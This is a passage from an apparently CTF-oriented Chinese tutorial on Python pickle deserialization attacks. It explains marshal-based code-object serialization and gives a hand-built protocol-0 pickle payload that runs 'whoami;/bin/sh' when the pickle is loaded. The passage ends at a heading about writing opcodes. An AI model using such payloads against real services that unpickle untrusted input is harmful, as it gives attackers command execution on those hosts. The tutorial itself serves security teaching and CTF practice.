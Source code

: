 由于`pickle`无法序列化`code`对象, 因此在`python2.6`后增加了一个`marshal`模块来处理`code`对象的序列化问题.

所谓code对象，就是代码对象，是已经编译好的，python虚拟机中的字节码

```
import base64
import marshal

def demo():
    import os
    os.system('/bin/sh')

code_serialized = base64.b64encode(marshal.dumps(demo()))
print(code_serialized)
```

但是`marshal`不能直接使用`__reduce__`, 因为`reduce`是利用调用某个`callable`并传递参数来执行的, 而`marshal`函数本身就是一个`callable`, 需要执行它, 而不是将他作为某个函数的参数.

需要利用上面分析的那个`PVM`操作码来进行构造了, 先写出来需要执行的内容, `Python`能通过`types.FunctionTyle(func_code,globals(),'')()`来动态地创建匿名函数, 这一部分的内容可以看[官方文档](https://docs.python.org/3/library/types.html)的介绍.

结合上文的示例代码, 最重要执行的是: `(types.FunctionType(marshal.loads(base64.b64decode(code_enc)), globals(), ''))()`.

给出payload：

```
import base64
import pickle
import marshal

def foo():
    import os
    os.system('whoami;/bin/sh')     # evil code

shell = """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))

print(pickle.loads(shell))
```

###  如何构造opcode

根据前文不同版本的opcode可以看出，版本0的opcode更方便阅读，所以手动编写时，一般选用版本0的opcode。而我们在CTF题目中，基本都是需要自己去手写opcode操作码

opcode操作码：

